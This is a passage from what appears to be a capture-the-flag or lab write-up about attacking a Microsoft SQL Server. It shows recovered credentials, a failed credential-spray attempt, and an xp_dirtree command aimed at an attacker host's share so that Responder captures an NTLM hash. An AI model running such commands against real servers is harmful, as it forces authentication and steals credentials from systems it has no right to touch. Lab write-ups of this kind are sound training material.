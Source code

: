     2   b'dev02'   b'Initial123'   

    SQL (web_staging  dbo@staging)> 

and we got some creds lets use them for creds spray again

bad new its not working

![alt text](<../assets/images/Screenshot_2025-02-04_20_48_30.png>)

so lets try to get ntlm hash on responder

    SQL (web_staging  guest@master)> xp_dirtree \\10.8.2.152\share
    subdirectory   depth   file   
    ------------   -----   ----   
    SQL (web_staging  guest@master)> 


after that command its actually work
